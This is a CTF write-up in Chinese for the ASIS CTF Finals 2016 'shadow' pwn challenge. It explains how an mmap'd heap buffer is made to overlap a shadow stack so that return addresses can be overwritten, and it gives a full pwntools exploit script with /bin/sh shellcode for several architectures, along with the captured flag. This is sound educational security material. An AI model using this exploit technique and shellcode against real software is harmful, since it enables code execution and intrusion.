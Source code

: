 title: '[ASIS CTF Finals 2016] shadow 99'
author: bruce30262
tags:
  - pwn
  - heap
  - shadow stack
  - ASIS CTF Finals 2016
  - ''
categories:
  - write-ups
date: 2016-09-14 18:04:00
---
## Info
> Category: pwn  
> Point: 99  
> Solver: bruce30262 @ BambooFox  
> 感謝 Ann Tsai 提供機器並幫忙跑 exploit，以及 angelboy 對 exploit 的指點 XD

## Analyzing  
32 bit ELF, 除了 stack guard 有開以外其他保護全部沒開

程式首先會用 `mmap` 配置一塊大小為 0x30000 的記憶體區塊，並將其當成 shadow stack 來使用，存放 return address。  

main function 裡面會先要我們輸入名字 (buffer 位址在 .bss 段)，之後我們可以選擇新增一個 beer，或是讀取/編輯一個 beer description。

新增一個 beer 時，程式會先要求 beer description 的長度，之後會呼叫 malloc 配置一塊相對應大小的 buffer 給我們輸入 beer description 的內容。至於讀取/編輯一個 beer description 則是會先要我們選擇要讀取/編輯的 beer，之後會印出 beer 的 description，並詢問我們是否要編輯 beer 的 description。此時如果輸入一個 invalid 的選項 ( not y or n )，程式會直接進行遞迴呼叫，再 call 一次該 function 並做同樣的事情，直到我們輸入 y 或 n 為止。

## Exploit  
這題關鍵的地方在於  

* 我們可以控制 malloc 的長度，以及 malloc 後 buffer 的內容
* 我們可以對程式做遞迴呼叫  

glibc 的 malloc 在 size 很大的時候 (超過 0x20000)，會改用 mmap 來進行動態的記體配置。而 mmap 出來的 memory page，會接在上一次 mmap 出來的 memory page 的前面。因此，透過第一點，我們可以嘗試去新增一個長度很長的 beer description，這樣程式在呼叫 mmap 之後**會將我們 beer description 的 buffer 接在 shadow stack 的前面。**  

之後我們可以嘗試對程式進行多次的遞迴呼叫，讓 shadow stack 不斷的 "往上長" (意即 shadow stack 的 top 位址會不斷得往前移)。只要 shadow stack 長到某一程度，就會跟我們 beer description 的 buffer 重疊在一起。此時我們再透過編輯 beer description 的功能，就可以改到 shadow stack 上的 return address，讓程式跳到我們想要的位址。這題因為只有 stack guard 的關係，可以執行 shellcode。 我們可以透過將 shellcode 塞入 name buffer，然後將 return address 改成 name buffer 位址的方式來跳 shellcode。

```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()
```


不過因為主辦方網路不穩的關係，我自己跑 exploit local 端是可以 work，但是 remote 端會 timeout，因此最後是將 exploit 上傳到 trello 請隊友 Ann Tsai 幫忙跑。一開始跑的時候還是會在某個地方卡住，經過安博的指點之後修了一下 exploit，最後成功拿 shell 並得到 flag。  

flag: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`